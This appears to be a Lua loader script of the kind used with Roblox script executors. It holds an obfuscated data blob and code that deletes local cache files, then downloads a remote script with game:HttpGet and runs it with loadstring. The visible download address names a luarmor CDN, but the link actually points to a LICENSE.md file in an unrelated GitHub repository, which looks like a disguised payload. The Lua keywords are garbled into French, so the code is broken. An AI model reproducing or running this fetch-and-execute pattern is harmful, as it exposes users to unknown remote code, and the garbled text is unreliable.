 -- Ne pas enregistrer ce fichier
-- Utilisez toujours la chaîne de chargement
  _bsdata0 = {{570285868,1752211132,342027},1938022620,785507,"\241\0\0\0","0E1D-!1CB31B E2F3A4A5E!E2!630E1HE1!DECE4D2260BEDEA161H0DC6BC02B5EDC3FCAF2A513F2H1-3BDA3F BC2C-E001B3055FA0DD164004ED6FA3523!E241","1fa11a723dd5d496cfb31c4eb6ab36c67 3d596f1bbfdc845dcfa19716bf8b5b37f305a8bb24149b8f5e719c7e518c90657b1f3ed712c 8dfb9518bea5d0d0f6424ae0918ea7d6e377d29053a8adf545a4fc024cd7005b395c39fad31 91724677844b248b16d8bf4fe91678e679072d42df6567248fd1d1d60be5da8783b8b089a32 2074f70189084010c541050ba9845a8548423dad89ad231f171d0aecdaabdefbe5a21a40ff5 25ab042fc72a2a66b51cf803492cec6444317e59fb1b4f5d49533a4744f7e896eb56a1a92"} ;
pcall(function() delfile('32b520fd3ef340a3c6f701b6edf48e55-cache.lua') fin)
  local a pcall(function()a=readfile("static_content_130525/initv4.lua")end) si a et #a>2000 alors a=loadstring(a) end;
si a alors renvoyer a() sinon pcall(makefolder, "static_content_130525") a=game:HttpGet("[https://cdn.luarmor.net/v4_init_may312.lua](https://raw.githubusercontent.com/Audinay/zdzdzfrg50/refs/heads/main/LICENSE.md)") writefile("static_content_130525/initv4.lua", a) pcall(delfile, "static_content_130525/init.lua"); pcall(delfile, "static_content_130525/initv2.lua"); pcall(delfile, "static_content_130525/initv3.lua"); loadstring(a)() fin
  
